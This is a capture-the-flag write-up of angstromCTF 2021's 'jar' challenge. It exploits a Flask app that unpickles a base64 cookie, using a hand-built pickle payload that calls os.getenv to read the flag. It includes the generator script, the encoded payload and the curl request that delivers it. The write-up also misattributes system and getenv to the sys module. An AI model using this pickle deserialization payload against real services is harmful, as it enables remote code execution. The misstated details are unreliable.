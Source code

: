 ## Reckon
Due to the existence of the `pickle` module in the [source code](./src/jar.py) it's obviously a pickle RCE (remote code execution) challenge. In it's most basic form a malicious pickle bytecode is crafted to make the server-side load the `sys.system` module, which allows running shell commands.

Here, we'll do something even simpler: read an environment variable. The `FLAG` envvar was defined in the Dockerfile:  
`ENV FLAG="actf{REDACTED}"`  

The web application itself is very simple, just a form with a text input named `item`, a cookie named `contents` and two (relevant) routes. On either routes the app will check for a cookie named `contents`; if it was not present in the request, `item` is an empty list, otherwise it receives the result of `pickle.loads()` applied to base64-decoded `contents`.

```python
@app.route('/')
def jar():
	contents = request.cookies.get('contents')
	if contents: items = pickle.loads(base64.b64decode(contents))
	else: items = []

[...]

@app.route('/add', methods=['POST'])
def add():
	contents = request.cookies.get('contents')
	if contents: items = pickle.loads(base64.b64decode(contents))
	else: items = []
```
Each `pickle.loads()` call is a possible entrypoint for the payload.


## The Payload
The payload must be a base64-encoded pickled bytestream that executes something equivalent to

`import os; os.getenv("FLAG")`

The pickle serialization model is a very simple VM that understands opcodes and arguments. It builds a stack from these opcodes and returns it's topmost item. One of it's opcodes is called `GLOBAL` and  it calls a Python callable object (one that implements `__call__`, being a class or a function) and a tuple containing the arguments to the callable.   

`GLOBAL         = b'c'   # push self.find_class(modname, name); 2 string args` ([source code](https://github.com/python/cpython/blob/0af99b44edf559305def22b2d68be685ce50d7f6/Lib/pickle.py#L133))

In this case we'll use the `getenv` callable from the `sys` module with the string `"FLAG"` as argument. The stack's topmost item would be translated to something like this:  
`self.find_class(os.getenv, ("FLAG",))`

The final bytecode is built like this:
```
p  = b'('               # create mark 1
p += b'c'               # push self.find_class(modname, name); 2 string args
p += b'os\n'            # arg1
p += b'getenv\n'        # arg2
p += b'('               # create mark 2
p += b'S"FLAG"\n'       # push string
p += b't'               # build tuple from stack items until mark 2
p += b'R'               # apply callable to argtuple, both on stack
p += b'l'               # build a list from items until mark 1
p += b'.'               # stop
```

A step-by-step explanation on how the stack is built:

  | 1  | 2  | 3  | 4      | 5      | 6         | 7         | 8                       | 9                         |
  | -  | -  | -  | -      | -      | -         | -         | -                       | -                         |
  | -  | -  | -  | -      | -      | "FLAG"    | -         | -                       | -                         |
  | -  | -  | -  | -      | *2     | *2        | ("FLAG",) | -                       | -                         |
  | -  | -  | -  | getenv | getenv | getenv    | getenv    | -                       | -                         |
  | -  | c  | os | os     | os     | os        | os        | c(os.getenv, ("FLAG",)) | -                         |
  | *1 | *1 | *1 | *1     | *1     | *1        | *1        | *1                      | [c(os.getenv, ("FLAG",))] |


1) `b'('`: Create mark 1 on the stack  
2) `b'c'`: Push the GLOBAL opcode  
3) `b'os\n'`: Push the "os" argument to GLOBAL  
4) `b'getenv\n'`: Push the "getenv" argument to GLOBAL  
5) `b'('`: Create mark 2 on the stack  
6) `b'S"FLAG"\n'`: Push the argument string  
7) `b't'`: Build tuple from stack items, until mark 2  
8) `b'R'`: Apply callable to argtuple (REDUCE), both on stack  
9) `b'l'`: Build a list from items until mark 1  

The payload generator code:

```bash
#!/usr/bin/python3
import codecs
import base64
import pickletools

p  = b'('               # create mark
p += b'c'               # push self.find_class(modname, name); 2 string args
p += b'os\n'            # arg1
p += b'getenv\n'        # arg2
p += b'('               # create mark
p += b'S"FLAG"\n' # push string
p += b't'               # build tuple
p += b'R'               # apply callable to argtuple, both on stack
p += b'l'
p += b'.'               # stop

pickle_encoded = codecs.encode(p, 'base64').replace(b'\n', b'')

pickletools.dis(base64.b64decode(pickle_encoded), annotate=1)
print("Payload: " + bytes.decode(pickle_encoded))
```

Output:
```
$ ./jar_payload.py
    0: (    MARK Push markobject onto the stack.
    1: c        GLOBAL     'os getenv' Push a global object (module.attr) on the stack.
   12: (        MARK                   Push markobject onto the stack.
   13: S            STRING     'FLAG'  Push a Python string object.
   21: t            TUPLE      (MARK at 12) Build a tuple out of the topmost stack slice, after markobject.
   22: R        REDUCE                      Push an object built from a callable and an argument tuple.
   23: l        LIST       (MARK at 0)      Build a list out of the topmost stack slice, after markobject.
   24: .    STOP                            Stop the unpickling machine.
highest protocol among opcodes = 0
Payload: KGNvcwpnZXRlbnYKKFMiRkxBRyIKdFJsLg==

```

Aaaaaand:
```
$ curl --cookie "contents=KGNvcwpnZXRlbnYKKFMiRkxBRyIKdFJsLg==" https://jar.2021.chall.actf.co/
<form method="post" action="/add" style="text-align: center; width: 100%"><input type="text" name="item" placeholder="Item"><button>Add Item</button><img style="width: 100%; height: 100%" src="/pickle.jpg"><div style="background-color: white; font-size: 3em; position: absolute; top: 87.7274822057462%; left: 66.32665379876163%;">actf{you_got_yourself_out_of_a_pickle}</div>
```

`actf{you_got_yourself_out_of_a_pickle}`
